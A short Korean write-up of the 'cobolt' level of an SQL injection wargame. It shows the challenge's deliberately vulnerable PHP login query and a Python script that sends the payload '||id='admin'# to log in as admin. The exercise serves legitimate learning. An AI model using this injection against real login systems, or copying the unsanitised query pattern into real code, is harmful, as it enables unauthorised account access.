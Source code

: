 ## COBOLT Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
$query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id'] == 'admin') solve("cobolt");  
elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";  
highlight_file(__FILE__);  
?>
```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/cobolt_b876ab5595253427d3bc34f1cd8f30db.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {'id' : "'||id='admin'#"}

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] COBOLT Clear!")
```
1번 문제는 id의 존재만 확인했지만 이번 문제는 id가 admin이어야 한다.  
따라서 id에 **'||id='admin'#** 을 넣어주었다.
``` php
select id from prob_cobolt where id=''||id='admin'#' and pw=''
```
쿼리문이 위와 같이 되고 id가 admin이 되어 문제가 풀린다.